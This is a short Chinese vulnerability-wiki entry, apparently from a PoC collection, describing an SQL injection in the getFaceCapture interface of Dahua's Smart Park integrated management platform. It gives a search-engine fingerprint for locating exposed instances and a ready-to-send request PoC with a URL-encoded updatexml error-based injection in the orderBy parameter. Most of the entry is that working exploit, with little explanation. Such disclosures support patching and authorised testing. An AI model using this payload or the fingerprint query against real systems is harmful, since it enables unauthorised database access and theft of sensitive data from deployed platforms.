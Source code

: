 # 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>智慧园区综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="dahua-智慧园区综合管理平台"</a-checkbox></br>

## 漏洞复现

![img](/assets/PeiQi-Wiki/img/1645602936890-c40b0210-c98e-465a-b54d-4d5ce28cbdf1-20230812163925217.png)



请求POC

```php
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![img](/assets/PeiQi-Wiki/img/1691823619224-89ff3b9c-ee7b-4051-abdf-bdb259873043.png)